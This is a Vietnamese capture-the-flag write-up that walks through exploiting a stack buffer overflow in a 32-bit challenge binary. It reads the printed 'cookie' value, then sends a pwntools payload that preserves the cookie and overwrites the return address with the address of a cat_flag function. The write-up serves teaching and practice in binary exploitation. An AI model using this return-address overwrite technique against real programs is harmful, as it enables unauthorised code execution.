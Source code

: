 # Bufferoverflow-homemade-cookie-v2

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Bufferoverflow-homemade-cookie-v2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a4f7ab5a8c42a3424f02be4c1840f9f8c9f298fb, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ở đây có 3 hàm ta cần quan tâm đến:

![main.png](images/main.png)

![vun.png](images/vun.png)

![system.png](images/system.png)

# 2. Ý tưởng

Tại hàm `main()`, chương trình sẽ tạo random giá trị biến `cookie` và in ra màn hình dưới dạng `hex`

Kế đến hàm `vun()`, ta thấy biến `v2` được gán cho giá trị của biến `cookie` và ta thấy nó sẽ check xem biến `v2` có bị thay đổi sau khi ta nhập vào biến `s` với hàm `gets(s);` hay không

Mà địa chỉ các biến trên stack có thể thấy biến `v2` ngay sau biến `s`: 

```
char s[16]; // [esp+Ch] [ebp-1Ch]
int v2; // [esp+1Ch] [ebp-Ch]
```

-> Lợi dụng lỗ hổng buffer overflow của hàm `gets(s)` để ghi đè đến `return_addr` mà không làm thay đổi giá trị tại `v2` để khi kết thúc, chương trình trả về hàm `cat_flag`
 
# 3. Khai thác

Do ở hàm `main()` đã in ra cho ta giá trị của `cookie` nên ta sẽ sử dụng `python script` để lấy giá trị đó là ghi đè mà không làm thay đổi giá trị `v2`

Đầu tiên, lấy giá trị `v2` bằng câu lệnh: 

```
v2 = int(p.recv(2), 16)     #lấy 2 bytes của biến v2 (được chương trình in ra màn hình) dưới dạng hex và chuyển qua dạng int
```

Tiếp đến lấy địa chỉ của hàm `cat_flag()` để ghi đè `return_addr`

![gdb0.png](images/gdb0.png)

Ok vậy là đủ giá trị cần, tiếp đến ta sẽ tính toán địa chỉ của biến `v2` cũng như `return_addr`

+ 16 bytes đầu ta sẽ sử dụng để ghi đè biến `s` (16 bytes rác bất kỳ)          
+ 4 bytes tiếp theo là giá trị biến `v2`        (Đã lấy được từ trên)
+ 8 bytes sau là khoảng cách từ v2 đến `ebp` 
  4 bytes của `ebp`                             (12 bytes rác bất kỳ)
+ 4 bytes cuối là địa chỉ của `return_addr`     (Ghi đè địa chỉ return_addr bằng địa chỉ hàm cat_flag)

Cuối cùng lợi dụng lỗ hổng buffer overflow của hàm `gets(s)` để ghi đè đến `return_addr`

```
payload = b'a'*16 + p32(v2) + b'a'*12 + p32(cat_flag)
p.sendline(payload)
```

Chạy mã khai thác và lấy được flag

![flag.png](images/flag.png)

